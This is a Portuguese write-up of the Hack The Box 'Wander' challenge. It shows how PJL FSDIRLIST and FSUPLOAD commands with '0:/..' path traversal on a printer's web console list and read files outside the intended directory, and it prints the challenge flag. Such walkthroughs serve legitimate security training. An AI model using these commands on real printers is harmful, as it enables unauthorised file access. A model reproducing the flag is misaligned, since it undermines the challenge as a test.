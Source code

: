 # Write-Up: Wander

## Descrição do Desafio

**Nome:** **Wander** \
**Plataforma:** Hack The Box \
**Categoria:** Hardware \
**Dificuldade:** Fácil \
**Data:** Novembro/2024 \
**Descrição:**

> Você está tentando acessar uma impressora bloqueada por um PIN e, para isso, encontrou um servidor web de gerenciamento da impressora. O responsável pelo bloqueio, seu tio, está fora de férias e você precisa desbloquear a impressora para poder imprimir documentos. O desafio é descobrir como acessar o sistema e obter o PIN necessário para liberar a impressora, levando em consideração que o gerenciamento da impressora é feito através desse servidor web.
> 

---

## Passo a Passo da Solução

### 1. Análise Inicial

- Inicialmente, é fornecido apenas um endereço IP e uma porta, mas não é possível acessar esse endereço diretamente via netcat. Então, utilizo o navegador para acessar o site. Ao acessar o endereço, sou redirecionado para uma página de configuração de impressora.

![image.png](images/image.png)

- Explorando o sistema, é possível encontrar a página **Job Controls**, onde é possível interagir com o sistema da impressora utilizando uma linguagem de comandos de controle de impressora chamada **Printer Job Language** (PJL).

![image.png](images/image%201.png)

### 2. Entendendo a Printer Job Language (PJL).

Quando encontro a página Job Controls, é possível perceber no formulário o seguinte comando: `@PJL INFO ID`, pesquisando o que seria PJL, encontro este site: [Print Job Language (PJL) | hp’s Developer Portal](https://developers.hp.com/hp-printer-command-languages-pcl/doc/print-job-language-pjl) com um documento que contém informações sobre **Printer Job Language** (PJL).

As principais funções são:

- FSAPPEND
- FSDIRLIST
- FSDELETE
- FSDOWNLOAD

- FSINIT
- FSMKDIR
- FSQUERY
- FSUPLOAD

Cada função apresenta uma sintaxe diferente que deve ser conferida no documento.

### 3.  Encontrando a Flag

Dentro do terminal da impressora iremos usar as seguintes funções:

`@PJL FSDIRLIST NAME=”PATH”`

`@PJL FSUPLOAD NAME=”PATH”`

Começando a navegar no terminal com o comando `@PJL FSDIRLIST NAME="0:/.."` , é exibido os seguintes diretórios.

![image.png](images/image%202.png)

Navegando para o diretório home com `@PJL FSDIRLIST NAME="0:/../home"` , encontramos outro diretório chamado default.

![image.png](images/image%203.png)

Acessando o diretório default com `@PJL FSDIRLIST NAME="0:/../home/default"`, há um arquivo chamado readyjob.

![image.png](images/image%204.png)

Para ler esse arquivo é preciso usar a função `@PJL FSUPLOAD NAME="0:/../home/default/readyjob"` , onde é possível encontrar a flag.

![image.png](images/image%205.png)

**Flag:**

`HTB{w4lk_4nd_w0nd3r}`

## Autor da WriteUp

[Membro de Exploitaion - Pedro Henrique dos Santos Barbosa](https://github.com/Petw143)